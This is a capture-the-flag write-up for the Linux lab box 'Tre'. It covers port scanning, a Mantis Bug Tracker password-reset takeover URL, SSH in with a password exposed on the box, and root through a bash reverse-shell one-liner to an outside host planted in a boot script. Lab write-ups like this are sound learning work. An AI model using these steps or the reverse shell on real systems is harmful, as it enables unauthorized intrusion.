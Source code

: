 ```yaml
---
title: "[PLAY] Proving Grounds: Tre"
---
```


This is a write up for the box Tre on proving grounds which is a Linux based box rated as intermediate.

## Enumeration: Port Scan
---
Starting off by running RustScan on the box to find out some open ports.

```
┌──(hhhharshil㉿kali)-[~/Desktop/tre]
└─$ rustscan -a 192.168.134.84 -- -sC -sV                                                                              
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :      
 --------------------------------------  
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan
                                                           
[~] The config file is expected to be at "/home/hhhharshil/.rustscan.toml"   
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 192.168.134.84:22                                                                                                                                                                                                                      Open 192.168.134.84:80                                                                                                                                                                                                                      
Open 192.168.134.84:8082                                                                                              
[~] Starting Script(s)                                                                                                                                                                                                                      
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 99:1a:ea:d7:d7:b3:48:80:9f:88:82:2a:14:eb:5f:0e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHMd6tbRI/GrqZQaWx7CAYYD22gD6KeVl/sZdKJTi7duDnBz3FqxHZBdk4mMTvupWZDLyB9/sGkb99ptqZ1TZNn+86sWvQTFR7vV+9PAQGIDs82Jta/NO9XORx3wkNVunxCaw9Iwf9AxlbY6Vc1Ot6ydEMUHo1Ha1G1i+9h5kh/7InJRF6HZgb0zmbV4n2lWWgye0dR5bLKjt/5QcKGFdv40fOIRv2/jWv/DWHJRCxRS8bS5LBfFXgdWRvu+sxeQbdzDXqCow2FeMcHQiNuuVpnrmnFAg7GdrA36srgnXO2ZXEGijFZehfnINkdUnqGMYY4kb03nDDZPO29Ami/zQP
|   256 f4:f6:9c:db:cf:d4:df:6a:91:0a:81:05:de:fa:8d:f8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDp3d72lJQsYyph4NbauO2u1nMokOTYcPPWH193ps7xb1euNLKSjJp1OtEwuhzu3lvUGxEQU3ISm9uj2g1sr0lk=
|   256 ed:b9:a9:d7:2d:00:f8:1b:d3:99:d6:02:e5:ad:17:9f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMuyBmHN7xrwj6KcGc2WT2NP0jIsGmRxMZkCBkr2SKrB
80/tcp   open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Tre
8082/tcp open  http    syn-ack nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
|_http-title: Tre
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

- 22 SSH
- 80 HTTP 
- 8082 - HTTP 

## Enumeration: HTTP
---
```
┌──(hhhharshil㉿kali)-[~/Desktop/tre]
└─$ gobuster dir -u http://192.168.134.84 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.134.84
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/30 15:01:33 Starting gobuster in directory enumeration mode
===============================================================
/system               (Status: 401) [Size: 461]
/cms                  (Status: 301) [Size: 314] [--> http://192.168.134.84/cms/]
                                        
```
http://192.168.134.84/system/login_page.php

prompted to enter creds used "admin:admin"


We are can identify the site is running Mantis Bug Tracker aka Mantis BT. The default credentials did not work which were said to be administrator:root.

<img src="/assets/resources/tre/mantis.png" />

I used searchsploit to find some of the common exploits used although there isn't a unauthenticated RCE we can however reset passwords.

<img src="/assets/resources/tre/mantis_sp.png" />

<img src="/assets/resources/tre/mantis_exploit1.png" />

```Remote un-authenticated attackers can send HTTP GET requests to Hijack ANY Mantis accounts by guessing the ID / username.\```


Typically the ID of 0 or 1 are used for the Admin user so I will attempt to visit the following page "192.168.134.84/system/verify.php?id=1&confirm_hash="

<img src="/assets/resources/tre/mantis_reset.png" />

We get some random username "XiBejMub" but this means the exploit is working so I just reset the password for this user and logged in.

After logging in and browsing through severeal tabs the users tab reveals some interesting information.

As shown below the user Tre put the real name value as "Tr3@123456A!" which appears to be password.

<img src="/assets/resources/tre/mantis_users.png" />

## SSH: Foothold
---

I attempt to ssh as the user tre with the password "Tr3@123456A!"

```
┌──(hhhharshil㉿kali)-[~/Desktop/tre]
└─$ ssh tre@192.168.134.84              
The authenticity of host '192.168.134.84 (192.168.134.84)' can't be established.
ECDSA key fingerprint is SHA256:wNJwlp5ha0nS3Mr1x6DPLtzNMMr/2egeef6B6N2hfsU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.134.84' (ECDSA) to the list of known hosts.
tre@192.168.134.84's password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tre@tre:~$ 
```

## Priv Esc: Sudo Shutdown 
---
```
tre@tre:~$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
tre@tre:~$ 
```

We are able tor un the command shutdown as root. However this does not do us any good unless we have control over a binary that gets executed upon boot up.

After some digging around it was found that we have the ability to edit the following file which is also owned by root. "/usr/bin/check-system"

This file essentially gets executed on boot and states wehenver a particular service is started and checks it. I will add a bash one liner to the script.

```/bin/bash -i >& /dev/tcp/192.168.49.134/8082 0>&1 ```

After shutting down the sysetem with the command "sudo /sbin/shutdown -r now" we get root on our listener @ 8082

<img src="/assets/resources/tre/tre_rooted.png" />

## Breakdown 
---
1. Dirbusting revealed a system directory using default creds of admin admin
2. Mantis BT contained a password reset vulnerablity
3. User Tre had his password exposed to everyone as they mistakenly entered it under Real Name
4. SSH as Tre 
5. Sudo -L Revealed Shutdown
6. Enumeration revealed a binary tre had read/write access to owned by root.
7. Edited binary with rev shell
8. sudo reboot - now and got a shell